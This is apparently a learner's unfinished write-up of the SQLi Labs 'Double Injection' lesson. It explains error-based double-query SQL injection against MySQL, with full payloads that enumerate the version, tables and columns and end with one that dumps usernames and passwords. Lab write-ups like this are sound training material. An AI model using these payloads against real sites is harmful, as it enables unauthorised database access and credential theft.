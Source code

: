 Hello guys,

This is the write-up for Less-5 'GET- Double Injection - Single Quotes - string' from SQLi Labs

Starting by adding id and numeric parameter to the URL: ``` [URL]/?id=1 ```

The Output Displayed in the browser is :

```
You are in...........
```
and same output was displayed for all ids from 1-14
trying ``` ?id = 1\ ```,

syntax error was returned ``` near ''1\' LIMIT 0,1' at line 1 ```, so we can understand that our input goes inside single quotes.

trying ``` ?id = 1' AND (SELECT database()) --+ ```, no ouput is returned.

There appears to be no output visible except " You are in..........." when all the syntax and conditions are true and when there are errors.

We can continue by using a double query payload to get an output via errors..

using the MySQL error with count(),floor(), rand() and group()

``` 
?id=1' AND (SELECT 1 FROM(SELECT COUNT(*), concat( version(), 0x3a, FLOOR(rand(0)*2))x FROM information_schema.TABLES GROUP BY x)a)--+
```
it returns ``` Duplicate entry '10.4.17-MariaDB:1' for key 'group_key'```

This error is returned because due to a bug in MySQL when group aggregates the random values produced by ```floor(rand()*2)``` which are 0 or 1 in the temporary table we create and redundancy introduces the errror.

so continuing with,

```
?id=1' AND (SELECT 1 FROM (SELECT COUNT(*),concat(0x3a ,(SELECT TABLE_NAME FROM information_schema.TABLES WHERE table_schema= database() LIMIT 0,1) , 0x3a, FLOOR(rand(0)*2))a FROM information_schema.TABLES GROUP BY a LIMIT 0,1)b)--+
```
where two temporary tables called a and b ,are created with and the Limits are specified as ```Operand should contain 1 column(s)```

...and the following is returned
```
Duplicate entry ':emails:1' for key 'group_key'
```
So, continuing by changing to LIMIT 0,1 inside temporary table a to LIMIT 1,1 

```Duplicate entry ':referers:1' for key 'group_key'``` is returned. 

with LIMIT 2,1 ``` Duplicate entry ':uagents:1' for key 'group_key' ```,

```Duplicate entry ':users:1' for key 'group_key'``` with LIMIT 3,1.

So from previous Lesssons, users is the table we dumped the login database from, so continuing by finding columns in 'users' table
```
?id=1' AND (SELECT 1 FROM (SELECT COUNT(*),concat(0x3a ,(SELECT COLUMN_NAME FROM information_schema.columns WHERE table_name= 'users' LIMIT 0,1) , 0x3a, FLOOR(rand(0)*2))a FROM information_schema.TABLES GROUP BY a LIMIT 0,1)b)--+
```
using the above statement, ```Duplicate entry ':USER:1' for key 'group_key'```

is returned, here USER is the first column's name...


so going on by changing LIMIT,  the username and password columns and can be found  at LIMIT 4,1 and LIMIT 5,1 respectively.

continuing with,
```
?id=1' AND(SELECT 1 FROM(SELECT COUNT(*),concat(0x3a,(SELECT group_concat(username, 0x7c, password) FROM users),FLOOR(rand(0)*2))a FROM information_schema.TABLES GROUP BY a)b)--+

```
# not finished



refernces:

https://perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/

https://medium.com/cybersecurityservices/sql-injection-double-query-injection-sudharshan-kumar-8222baad1a9c
